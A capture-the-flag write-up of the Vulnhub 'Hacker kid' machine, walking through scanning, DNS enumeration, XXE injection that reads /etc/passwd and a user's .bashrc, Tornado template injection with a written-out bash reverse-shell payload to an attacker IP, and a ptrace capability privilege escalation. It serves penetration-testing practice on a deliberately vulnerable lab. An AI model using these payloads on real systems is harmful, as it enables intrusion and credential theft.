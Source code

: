 # Hacker kid - Writeup 

Hacker kid is an easy/medium level machine from Vulnhub by Saket Sourav.

This box is OSCP style and focused on enumeration with easy exploitation.
The goal is to get root. No guessing or heavy bruteforce is required and proper hints are given at each step to move ahead.

Link to the machine: [https://www.vulnhub.com/entry/hacker-kid-101,719/](https://www.vulnhub.com/entry/hacker-kid-101,719/)
<br />

## Identify the target

Let's start by identifying the target's IP address.
```
fping -agq 10.10.10.0/24

10.10.10.1
10.10.10.2
10.10.10.10
```
<br />

## Port scan

Now, let's find some open ports and running services.
```
export ip=10.10.10.10

sudo nmap -p- -sV -sC -oN nmap.log $ip

Nmap scan report for 10.10.10.10
Host is up (0.00015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Notorious Kid : A Hacker 
|_http-server-header: Apache/2.4.41 (Ubuntu)
9999/tcp open  http    Tornado httpd 6.1
| http-title: Please Log In
|_Requested resource was /login?next=%2F
|_http-server-header: TornadoServer/6.1
MAC Address: 08:00:27:72:B1:FF (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.71 seconds
```
<br />

## Enumerate Web Server

First, let us examine the web server on port 80.

![](Pics/web.png)

examined the source code and we found.
<br />

![](Pics/web2.png)
<br />


When we add `page_no` to the URL, we got a message.

![](Pics/web3.png)

<br />

So, let's do a little brute forcing on the request by sending it to `Intruder` in `Burp`.

![](Pics/burp.png)

<br />

Under the `Payloads` tab, chose the payload type to numbers. Then click on start attack.

![](Pics/burp2.png)

<br />

Click on `length` to see any difference in response size.

![](Pics/burp3.png)

<br />

Now, let's visit the link, we have a new message at the end of the page.

![](Pics/web4.png)
<br />

The hint says we have subdomains to enumerate, something about home, and a subdomain to work on.<br />
Let's add that subdomain in the `etc/hosts` file and then start our enumeration.

![](Pics/dns.png)
<br />

Let's use `dig` for DNS enumeration, the command is `dig hackers.blackhat.local @10.10.10.10`

![](Pics/dns2.png)
<br />

We have a new subdomain, add it in hosts file.

![](Pics/dns3.png)
<br />

And visit that subdomain.

![](Pics/web5.png)
<br />

We got a registration form, Let's examine it.

![](Pics/web6.png)
<br />

After a few tries, when we type an invalid email, it reflects.<br />
So, let's open Burp and intercept this request for more info.

![](Pics/burp4.png)
<br />

XML format. let's try to inject XXE (XML External Entity) in the request.

> Reference: [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

<br />

![](Pics/xxe.png)
<br />

You could see above, that the xxe injection worked and we got the `/etc/passwd` file, and there's a user called `Saket`.
Let's see what's in his home.
Just replace `'file:///etc/passwd'`  with  `'php://filter/convert.base64-encode/resource=/home/saket/.bashrc'`
![](Pics/xxe2.png)
<br />

And we got python app credentials. Now, back to our scan results, there is another running service on port 9999 which is Tornado Web server (a Python Web Technology). Let's navigate to it.

![](Pics/web7.png)
<br />

Tried to log in as admin with the credentials we've got but didn't work. Change the username from admin to Saket and it worked.

![](Pics/web8.png)
<br />

The page asking for a name, add in the link `?name=a`.

![](Pics/web9.png)
<br />

Ok, Anything we typed in the `name` parameter will return to us. Let's try SSTI (Server Side Template Injection).

![](Pics/web10.png)
<br />

> `Server-side template injection is a vulnerability where the attacker injects malicious input into a template to execute commands on the server-side. This vulnerability occurs when invalid user input is embedded into the template engine which can generally lead to remote code execution (RCE).`

> Reference:
> - [https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)
> - [https://ajinabraham.com/blog/server-side-template-injection-in-tornado](https://ajinabraham.com/blog/server-side-template-injection-in-tornado)

<br />

Now, Let's get a shell.<br />
First, start a listener with netcat, copy the payload `{% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/10.10.10.2/1234 0>&1"')}}`, and URL encode it.

![](Pics/encode.png)
<br />

Paste it into the URL.

![](Pics/shell.png)
<br />

We got a shell, upgrade it.

![](Pics/shell2.png)
<br />

## Root Access

Let's upload `linpeas` and try to get root.

![](Pics/priv.png)
<br />
 
Make it executable by `chmod +x linpeas.sh` and run it.

![](Pics/priv2.png)

We found a binary that has capability.

> `Linux Capabilities are used to allow binaries (executed by non-root users) to perform privileged operations without providing them all root permissions`.

> Reference: [https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc](https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc)

Now, Let's follow up, and first, let's download the script

![](Pics/priv3.png)
<br />

![](Pics/priv4.png)
<br />

Save this script and make it executable.

![](Pics/priv5.png)
<br />

Ok, let's find a service running as root with `ps -eaf`. 

![](Pics/priv6.png)
<br />

We gonna use the process with the PID `853`.<br />
Now, our command is ready `python2.7 exp.py 853`.<br />
Check if port 5600 is open, and connect to the target IP with netcat on port `5600`.

![](Pics/root.png)

